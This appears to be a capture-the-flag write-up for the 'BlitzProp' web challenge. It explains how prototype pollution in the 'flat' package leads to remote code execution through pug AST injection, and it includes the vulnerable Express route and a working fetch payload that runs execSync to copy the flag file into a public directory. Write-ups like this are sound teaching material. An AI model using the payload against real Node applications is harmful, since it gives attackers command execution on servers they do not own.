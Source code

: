 \---
title: BlitzProb
date: 2021-04-25
categories: \[web\]
tags: \[cyberapocalpyse2021\]
toc: false
---

# BlitzProp
This challenge contained a Prototype Pollution to RCE via AST Injection.<br>You can read more about it in this [blog](https://blog.p6.is/AST-Injection/) post

The webpage looks as follows:
![[/assets/img/blitzProp_web.png]]

## Vulnerability
While going trough the source code we can see in the "challenge/routes/index.js" file, the "unflatten" function which is called after receiving a post request:

``` javascript
const path              = require('path');
const express           = require('express');
const pug               = require('pug');
const { unflatten }     = require('flat');
const router            = express.Router();

router.get('/', (req, res) => {
    return res.sendFile(path.resolve('views/index.html'));
});

router.post('/api/submit', (req, res) => {
	const { song } = unflatten(req.body);

	if (song.name.includes('Not Polluting with the boys') || song.name.includes('ASTa la vista baby') || song.name.includes('The Galactic Rhymes') || song.name.includes('The Goose went wild')) {
		return res.json({
			'response': pug.compile('span Hello #{user}, thank you for letting us know!')({ user:'guest' })
		});
	} else {
		return res.json({
			'response': 'Please provide us with the name of an existing song.'
		});
	}
});

module.exports = router;
```

After reviewing the "package.json" file we can see that "flat" “5.0.0” is installed which suffers from a Prototype Pollution vulnerability via Abstract Syntax Tree. [Here](https://github.com/hughsk/flat/issues/105) you can find the PoC.

## Exploitation
To exploit this vulnerability and read the flag, we just sent the below payload to ""/api/submit":

```javascript
let CMD = "process.mainModule.require('child_process').execSync('cat /app/flag* >> /app/static/js/flag.txt')"

fetch('/api/submit', {
	method: 'POST',
	body: JSON.stringify({
		'song.name': "Not Polluting with the boys",
		"__proto__.block": {
			"type": "Text", 
			"line": CMD
		}
	}),
	headers: {'Content-Type': 'application/json'}
}).then(r => {
	return r.text();
})
```

The flag file was written in webserver’s static directory. After visiting /static/js/flag.txt we see the flag:

> CHTB{p0llute_with_styl3}